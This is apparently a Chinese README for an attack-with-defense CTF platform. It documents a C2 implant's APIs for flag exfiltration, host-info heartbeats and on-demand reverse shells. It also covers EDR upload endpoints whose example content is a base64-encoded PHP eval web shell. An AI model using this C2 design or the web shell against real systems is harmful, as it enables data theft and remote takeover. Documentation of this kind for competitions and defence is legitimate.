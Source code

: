 # AWD中台

## 命令行参数

```
-u string
    用户名 (默认: 0RAYS)
-p string  
    密码 (必需，无默认值)
-P string
    监听端口 (默认: 26666)

示例:
./0rays-awd-platform.exe -u 0RAYS -p 0raysnb -P 26666
```

## API接口说明

### 说明

一个简单的远控, 每1秒读取一次/flag, 然后判断是否有变化, 如果有变化就发到c2那边

每60秒一次心跳包, 心跳包里面上传主机名, 用户名等数据

如果心跳包api返回1, 则代表需要反弹shell, 这个时候从get-rs api获取, 然后建立反弹shell

### C2客户端接口

#### 提交Flag

```
POST /api/c2/submit-flag
Content-Type: application/json

{
	"flag": "flag{test_flag}"
}
```

#### 心跳包

```
POST /api/c2/heartbeat
Content-Type: application/json

{
    "hostname": "web01",
    "username": "www-data", 
    "pid": "1234",
    "process_name": "flag_monitor"
}

Response: 0 或 1 (是否需要反弹shell)
```

#### 获取反弹Shell地址

```
GET /api/c2/get-rs
Response: 192.168.1.100:1337
```

---

### 说明

告警和监控文件

告警上传的文件会放在/edr_files文件夹下面隔离

### Agent EDR接口

#### EDR告警

```
GET /api/agent/edr-alert?type=warning&message=检测到可疑文件.shell.php

参数说明:
- type: 告警类型 (warning, info, success)
- message: 告警消息内容

Response: 200 OK

注意: title固定为"EDR消息"
```

#### 上传可疑文件

```
POST /api/agent/edr-suspicious-file
Content-Type: application/json

{
    "filename": ".shell.php",
    "path": "/var/www/html/",
    "content": "PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg=="
}

注意: 
- filename: 文件名，会自动过滤路径穿越字符
- path: 文件所在路径
- content: base64编码的文件内容
- 文件大小限制10MB (base64编码前)
- 此API不会自动产生告警消息，需要EDR agent自行调用edr-alert API
```

